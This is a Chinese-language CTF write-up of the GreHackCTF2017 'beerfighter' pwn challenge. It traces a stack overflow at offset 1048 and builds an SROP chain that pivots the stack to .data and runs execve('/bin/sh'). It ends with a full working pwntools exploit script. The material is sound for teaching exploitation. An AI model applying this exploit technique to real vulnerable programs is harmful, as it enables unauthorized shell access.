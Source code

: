 # 6.1.5 pwn GreHackCTF2017 beerfighter

- [题目解析](#题目解析)
- [Exploit](#exploit)


## 题目解析
```
$ file game 
game: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=1f9b11cb913afcbbbf9cb615709b3c62b2fdb5a2, stripped
```
64 位，静态链接，stripped。

既然是个小游戏，先玩一下，然后发现，进入 City Hall 后，有一个可以输入字符串的地方，然而即使我们什么也不输入，直接回车，在 Leave the town 时也会出现 Segmentation fault：
```
[0] The bar
[1] The City Hall
[2] The dark yard
[3] Leave the town for ever
Type your action number > 1
Welcome Newcomer! I am the mayor of this small town and my role is to register the names of its citizens.
How should I call you?
[0] Tell him your name
[1] Leave
Type your action number > 0
Type your character name here >

...

[0] The bar
[1] The City Hall
[2] The dark yard
[3] Leave the town for ever
Type your action number > 3
By !

Segmentation fault (core dumped)
```

程序大概清楚了，看代码吧，经过一番搜索，发现了一个很有意思的函数：
```
[0x00400d8e]> pdf @ fcn.00400773
/ (fcn) fcn.00400773 15
|   fcn.00400773 ();
|              ; CALL XREF from 0x00400221 (fcn.004001f3)
|              ; CALL XREF from 0x004002b6 (fcn.00400288)
|           0x00400773      4889f8         mov rax, rdi
|           0x00400776      4889f7         mov rdi, rsi
|           0x00400779      4889d6         mov rsi, rdx
|           0x0040077c      4889ca         mov rdx, rcx
|           0x0040077f      0f05           syscall
\           0x00400781      c3             ret
```
`syscall;ret`，你想到了什么，对，就是前面讲的 SROP。

其实前面的输入一个字符串，程序也是通过 syscall 来读入的，从函数 `0x004004b8` 开始仔细跟踪代码后就会知道，系统调用为 `read()`。

```
gdb-peda$ pattern_offset $ebp
1849771374 found at offset: 1040
```
缓冲区还挺大的，`1040+8=1048`。

好，现在思路已经清晰了，先利用缓冲区溢出漏洞，用 `syscall;ret` 地址覆盖返回地址，通过 frame\_1 调用 `read()` 读入 frame_2 到 `.data` 段（这个程序没有`.bss`，而且`.data`可写），然后将栈转移过去，调用 `execve()` 执行“/bin/sh”，从而拿到 shell。

构造 sigreturn：
```
$ ropgadget --binary game --only "pop|ret"
...
0x00000000004007b2 : pop rax ; ret
```
```python
# sigreturn syscall
sigreturn  = p64(pop_rax_addr)
sigreturn += p64(constants.SYS_rt_sigreturn)    # 0xf
sigreturn += p64(syscall_addr)
```

然后是 frame_1，通过设定 `frame_1.rsp = base_addr` 来转移栈：
```python
# frame_1: read frame_2 to .data
frame_1 = SigreturnFrame()
frame_1.rax = constants.SYS_read
frame_1.rdi = constants.STDIN_FILENO
frame_1.rsi = data_addr
frame_1.rdx = len(str(frame_2))
frame_1.rsp = base_addr             # stack pivot
frame_1.rip = syscall_addr
```

frame_2 执行 `execve()`：
```python
# frame_2: execve to get shell
frame_2 = SigreturnFrame()
frame_2.rax = constants.SYS_execve
frame_2.rdi = data_addr
frame_2.rsi = 0
frame_2.rdx = 0
frame_2.rip = syscall_addr
```

Bingo!!!
```
$ python2 exp.py 
[*] '/home/firmy/Desktop/game'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './game': pid 12975
[*] Switching to interactive mode
By !

$ whoami
firmy
```


## Exploit
完整的 exp 如下，其他文件放在了[github](../src/writeup/6.1.5_pwn_grehackctf2017_beerfighter)相应文件夹中：
```python
from pwn import *

elf = ELF('./game')
io = process('./game')
io.recvuntil("> ")
io.sendline("1")
io.recvuntil("> ")
io.sendline("0")
io.recvuntil("> ")

context.clear()
context.arch = "amd64"

data_addr = elf.get_section_by_name('.data').header.sh_addr + 0x10
base_addr = data_addr + 0x8   # new stack address

# useful gadget
pop_rax_addr = 0x00000000004007b2   # pop rax ; ret
syscall_addr = 0x000000000040077f   # syscall ;

# sigreturn syscall
sigreturn  = p64(pop_rax_addr)
sigreturn += p64(constants.SYS_rt_sigreturn)    # 0xf
sigreturn += p64(syscall_addr)

# frame_2: execve to get shell
frame_2 = SigreturnFrame()
frame_2.rax = constants.SYS_execve
frame_2.rdi = data_addr
frame_2.rsi = 0
frame_2.rdx = 0
frame_2.rip = syscall_addr

# frame_1: read frame_2 to .data
frame_1 = SigreturnFrame()
frame_1.rax = constants.SYS_read
frame_1.rdi = constants.STDIN_FILENO
frame_1.rsi = data_addr
frame_1.rdx = len(str(frame_2))
frame_1.rsp = base_addr             # stack pivot
frame_1.rip = syscall_addr

payload_1  = "A" * 1048
payload_1 += sigreturn
payload_1 += str(frame_1)

io.sendline(payload_1)
io.recvuntil("> ")
io.sendline("3")

payload_2  = "/bin/sh\x00"
payload_2 += sigreturn
payload_2 += str(frame_2)

io.sendline(payload_2)
io.interactive()
```
